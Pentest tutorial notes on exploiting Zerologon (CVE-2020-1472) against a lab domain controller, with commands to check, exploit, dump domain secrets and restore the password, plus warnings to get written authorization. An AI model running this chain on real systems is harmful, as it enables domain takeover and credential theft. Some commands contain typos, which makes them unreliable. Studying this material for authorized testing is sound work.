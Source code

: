-- -
Dangerous exploit that could take the entire network down. The vector relies on attacking a #domaincontroller and changing the admin's logon to #null. This can easily break a number of systems, so it is not advised to actually run this against a production environment as you can then halt everything. So run for practice, but don't do it on a client environment unless they specifically ask you to, and you get it in writing so they can't sue you after.  
#### Check for vuln
The code includes the exploit, but it also has a checker that sees if the domain controller is vulnerable without actually exploiting anything:
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472
python zerologon_check.py <DC hostname> <dc ip>
python zerologon_check.py HYDRA-DC 10.0.2.16
```
#### Exploit
Remember to not fling this wildly, get client confirmation **in writing** if they want you to exploit it:
```bash
python cve-2020-1472.py <dc hostname> <dc ip>
python cve-2020-1472.py HYDRA-DC 10.0.2.16
```
#### Verify exploit
verify that the exploit ran successfully by dumping dc SAM using [[Dark Arts/Active Directory/Post Breach/Tools/Attacks/secretsdump|secretsdump]]
```bash
# It will still ask for a password, just hit enter and leave it empty
secretsdump.py -just-dc <domain>/<dc hostname>\$@<dc ip>
secretsdump.py -just-domain MARVEL\HYDRA-DC\$@10.0.2.16
```
#### Restore DC
After you verify the exploit, you will want to document the compromise then restore the DC as quickly as possible so that you hopefully don't destroy the domain.
```bash
# Take the administrator hash from the sam dump in the verify exploit step above
# use it to get the cleartext password 
secretdump.py administrator@<dc ip> -hashes <administrator hash>
secretsdump.py administrator@10.0.2.16 -hashes <administraotr hash>

# Then use that cleartext password to restore the password on the DC
# there is a clear hex value in the dump from the above command, copy it and use it as the '-hexpass' value below.
python restorepassword.py <domain>/<dc hostname>@<dc hostname> -target-ip <dc ip> -hexpass <hex password>
python restorepassword.py MARVEL/HYDRA-DC@HYDRA-DC -target0ip 10.0.2.16 -hexpass <hex pass>
```
#### Resources
- [What Is ZeroLogon?](https://www.trendmicro.com/en_us/what-is/zerologon.html)
- [Exploit / vuln checker](https://github.com/dirkjanm/CVE-2020-1472)